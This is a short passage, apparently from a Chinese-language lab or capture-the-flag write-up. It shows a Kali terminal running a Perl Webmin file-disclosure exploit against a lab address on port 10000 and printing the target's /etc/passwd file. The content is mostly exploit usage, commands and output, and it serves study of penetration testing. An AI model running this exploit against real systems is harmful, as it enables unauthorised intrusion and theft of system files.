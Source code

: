 查看用法

```bash
┌──(kali㉿kali)-[~]
└─$ perl 2017.pl
Usage: 2017.pl <url> <port> <filename> <target>
TARGETS are
 0  - > HTTP
 1  - > HTTPS
Define full path with file name
Example: ./webmin.pl blah.com 10000 /etc/passwd
```

漏洞脚本利用

```bash
┌──(kali㉿kali)-[~]
└─$ perl 2017.pl 10.10.10.16 10000 /etc/passwd 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 10.10.10.16 on port 10000!
FILENAME:  /etc/passwd

 FILE CONTENT STARTED
 -----------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash

 -------------------------------------
```
